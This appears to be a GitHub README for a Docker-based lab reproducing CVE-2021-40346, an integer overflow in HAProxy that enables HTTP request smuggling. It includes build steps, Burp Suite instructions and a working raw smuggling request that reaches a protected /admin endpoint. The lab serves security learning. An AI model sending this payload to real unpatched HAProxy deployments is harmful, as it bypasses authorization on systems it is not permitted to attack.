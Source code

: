 # HaProxy Integer Overflow to HTTP Smuggling (CVE-2021-40346)

HaProxy is a popular load balancer software. CVE-2021-40346 is an integer overflow vulnerability, which leads to http smuggling. And, in turn, HTTP Smuggling leads to potential authorization bypasses or other consequences (see References for HTTP Smuggling). \
A malicious Content-Length header leads to integer overflow. Later, this enables another vulnerability - HTTP Request Smuggling. In turn, this might lead to an authorization bypass.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp. Try to access either 'guest' and 'admin' endpoints separately.
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

![image](https://user-images.githubusercontent.com/31791455/140397000-4a163839-973f-42df-ac35-63601567f46e.png)


## Exploitation with Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit. Turn on newline preview (the '\n' button) in Repeater for extra visiblity.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694 \
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/ \
https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


